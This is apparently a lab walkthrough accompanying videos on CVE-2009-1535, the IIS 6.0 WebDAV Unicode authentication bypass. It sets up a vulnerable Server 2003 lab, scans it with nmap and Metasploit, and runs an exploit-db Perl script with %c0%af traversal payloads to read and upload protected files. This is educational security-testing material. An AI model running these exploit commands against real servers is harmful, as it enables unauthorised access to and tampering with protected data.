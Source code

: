 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass (Part 1)

Part1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535
https://www.cvedetails.com/cve/CVE-2009-1535/
https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file

> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3

Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file

> echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
> echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt

////////////////

Why does Directory traversal attack %C0%AF work?
https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

////////////////

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af

> path

Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> source

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> put  =>  /root/pm.txt

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

